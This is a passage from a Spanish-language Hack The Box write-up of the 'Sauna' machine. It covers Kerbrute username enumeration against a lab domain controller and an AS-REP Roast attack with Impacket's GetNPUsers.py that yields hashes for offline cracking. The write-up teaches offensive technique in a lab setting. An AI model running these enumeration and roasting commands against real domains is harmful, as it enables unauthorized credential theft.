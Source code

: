 En este punto, podemos utilizar la herramienta [Kerbrute](https://github.com/ropnop/kerbrute) para validar estos usuarios. Pero antes de esto, sería importante saber en qué formato están creados los usuarios dentro del dominio, es decir, su **samAccountName** o nombre de login. Tomaremos como ejemplo el primer usuario obtenido, **Hugo Smith** e intentaremos distintos formatos para conocer la estructura.


Ejecutaremos kerbrute con la siguiente lista de usuarios para conocer el formato.

```plaintext
hugo_smith
hugo.smith
hugosmith
hugo-smith
hsmith
```

```kerbrute userenum users.txt --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL```

![](/images/HTB/Sauna/20-kerbrute.png)

Y tenemos un match con el usuario **hsmith**, con esto ya podemos construir la lista con el resto de nombres.

```plaintext
hsmith
fsmith
hbear
skerb
scoins
btaylor
sdriver
```

# ASREPRoast

Con la información obtenida, se podría intentar un ataque de tipo AS-REP Roast, el cual consiste en abusar del atributo ```DONT_REQ_PREAUTH``` en la configuración del usuario, de esta forma obtendremos un TGT o hash que es posible crackear de manera offline con **john the ripper** o **hashcat**.

> [Fuente](https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html) 

Para realizar este ataque existen varias opciones, en este caso estaremos utilizando **GetNPUsers.py** de [Impacket](https://github.com/SecureAuthCorp/impacket) y el módulo **ASREPROAST** de [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). 

## GetNPUsers

* ```GetNPUsers.py -usersfile users.txt -no-pass -request EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175```

![](/images/HTB/Sauna/25-asreproast.png)
